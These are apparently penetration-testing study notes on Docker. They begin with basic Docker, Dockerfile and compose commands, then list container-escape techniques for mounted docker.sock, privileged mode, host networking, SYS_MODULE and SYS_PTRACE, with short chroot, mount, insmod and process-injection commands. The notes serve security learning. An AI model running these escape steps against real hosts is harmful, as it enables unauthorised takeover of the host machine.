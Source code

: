 https://www.youtube.com/watch?v=0hrv0qyOEd0
https://bootcamps.pentesteracademy.com/course/container-security-on-demand

## Docker Commands
```bash
docker info
docker pull IMAGE:TAG
docker images / docker image ls

docker run -dt IMAGE # detached
docker run -it IMAGE # interactive

docker ps / docker container ls

docker inspect ID/NAME
docker attach ID/NAME
docker exec -dt ID/NAME COMMAND
docker exec -it ID/NAME COMMAND

docker stop ID/NAME
docker start ID/NAME
docker kill ID/NAME

docker container ...
docker image ...
docker network ...
```
---
## Dockerfile
```Dockerfile
FROM alpine

COPY script.sh /root/

run chmod +x /root/script
```

```bash
docker build -t IMAGE .
```
---
## docker-compose.yaml
```yaml
version: "3.5"
services:
	appserver:
		image: IMAGE
		networks:
			- backend
	memcache:
		image: IMAGE
		networks:
			- backend
networks:
	backend:
		name: test-net
		driver: bridge
```

```bash
docker-compose up
```
---
## Docker API without Docker client
When you don't have docker client installed you can use http api/unix socket.
```bash
curl http://localhost:2375/images/json
curl --unix-socket /var/run/docker.sock http://localhost/images/json

curl http://HOST/v2/_catalog
curl http://HOST/v2/REPO/tags/list
curl http://HOST/v2/REPO/manifests/TAG
curl -s http://HOST/v2/REPO/blobs/sha256:SHASUM --output layer1.tar
```

Or when we have no docker socket but only tcp api.
```bash
export DOCKER_HOST="tcp://127.0.0.1:2375"
docker ps
```

---
## Mounted Docker Socket
#### Insecure Option
`-v /var/run/docker.sock:/var/run/docker.sock`
#### Why?
Management or monitoring purposes (portainer, sysdig, gitlab runner).
#### Enumeration
Inside of the docker container we can search for docker socket using find command.
```bash
find / -name docker.sock 2>/dev/null
```
#### Exploitaion
If we find the socket, we can start another container using said socket and mount host's filesystem into it, then chroot to the host filesystem.
```bash
docker run -it -v /:/host IMAGE bash
chroot /host bash
```
---
## Privileged Container
#### Insecure Option
`--privileged`
#### Why?
Used for monitoring privileged containers.
#### Enumeration
We can use `capsh --print` to enumerate linux capabilities. 
#### Exploitation
Then when we can see main harddisk (/dev/sda), we will mount and chroot into it.
```bash
mount /dev/sda /host
chroot /host bash
```
---
## Shared Network Namespace
#### Insecure Option
`--network host`
#### Why?
portainer
#### Enumeration
We will use `ip a` to look for host interfaces.
#### Exploitation
Portforward from container to a host. If portainer is present, run new container > mount host's root > chmod into it.

---
## SYS_MODULE Capability
#### Insecure Option
`--cap-add SYS_MODULE`
#### Why?
Monitoring
#### Enumeration
We can use `capsh --print` to enumerate linux capabilities. 
#### Exploitation
Create the kernel module.

Then create a Makefile.
```bash
obj-m +=shell.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

Make the module.
```bash
make
```

And insert the kernel module.
```
insmod shell.ko
```
---
## SYS_PTRACE Capability
#### Insecure Options
`--pid=host --cap-add SYS_PTRACE`
#### Why?
Debugger containers.
#### Enumeration
Watch out for same PID namespace as host. 
#### Exploitation
https://0x00sec.org/t/linux-infecting-running-processes/1097

Update shellcode and compile the code.

```bash
./inject PID
```
---
